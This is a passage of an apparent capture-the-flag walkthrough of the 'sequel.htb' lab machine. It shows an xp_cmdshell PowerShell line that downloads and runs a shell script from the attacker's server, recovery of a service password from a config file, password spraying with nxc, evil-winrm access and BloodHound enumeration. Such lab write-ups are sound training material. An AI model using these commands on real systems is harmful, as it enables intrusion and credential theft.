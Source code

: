 

+ Start a Python HTTP server 
    ```python 
    python -m http.server 8080
    ```
+ Then, execute the reverse shell on the target
    ```
    xp_cmdshell powershell -c "IEX(curl -useb http://IP:8080/shell.ps1)"
    ```
    This successfully grants us a shell on the server as the as `sql_svc`
    ![](https://cdn-images-1.medium.com/max/1000/1*P9me_uAsbNYhwhoRm1b_2w.png)

After some enumeration, i found a directory for SQL2019 
    ![](https://cdn-images-1.medium.com/max/1000/1*Kj9Y_RpGgdGTN_NMj6yDIQ.png)
    ![](https://cdn-images-1.medium.com/max/1000/1*7cr-EWdPChpeqKtt0unrqw.png)
Inside it there were a configuration file which contains sql_svc password 
![](https://cdn-images-1.medium.com/max/1000/1*Sp-H5WPwKyo68UGUi1Uvyg.png)

We can now auth as sql_svc but we have a shell already we can try to auth via winrm for stable shell but sql_svc isn't part of the remote Management users, we know this from before from LDAP enum 

Then, I attempted a password spraying attack on the gathered users, and it worked.

```bash
nxc smb sequel.htb -u users.list -p "WqSZAF6CysDQbGb3" --continue-on-success
```

![](https://cdn-images-1.medium.com/max/1000/1*iRt15tZi7uwasMoQ8F3WdA.png)

We have the password of user ryan which is part of the remote Management group.

![](https://cdn-images-1.medium.com/max/1000/1*pLyM3khk44a5OfIF1YDveA.png)

---

## 3. Privilege Escalation
Gaining access to `ryan` user using `evil-winrm`
![](https://cdn-images-1.medium.com/max/1000/1*u_HjZP8luB1A-pPZxyhGzQ.png)

Most of the time i would run [WinPEAS](https://medium.com/r/?url=https%3A%2F%2Fgithub.com%2Fcarlospolop%2Fprivilege-escalation-awesome-scripts-suite%2Ftree%2Fmaster%2FwinPEAS) but i prefer to use bloodhound to know more about the environment and the priv we have over other resources 

Using [bloodhound CE](https://medium.com/r/?url=https%3A%2F%2Fgithub.com%2FSpecterOps%2FBloodHound) for mapping the AD environment, it is better than the old one in somethings like ADCS attack path but still need way more modifications.

Start gathering data by running SharpHound ingestor or [BloodHound.py](https://medium.com/r/?url=https%3A%2F%2Fgithub.com%2Fdirkjanm%2FBloodHound.py%2Ftree%2Fbloodhound-ce), i just knew that it has specific version for bloodhound CE

[](https://cdn-images-1.medium.com/max/1000/1*1PknADCrSPkTHi4YyeEMdg.png)
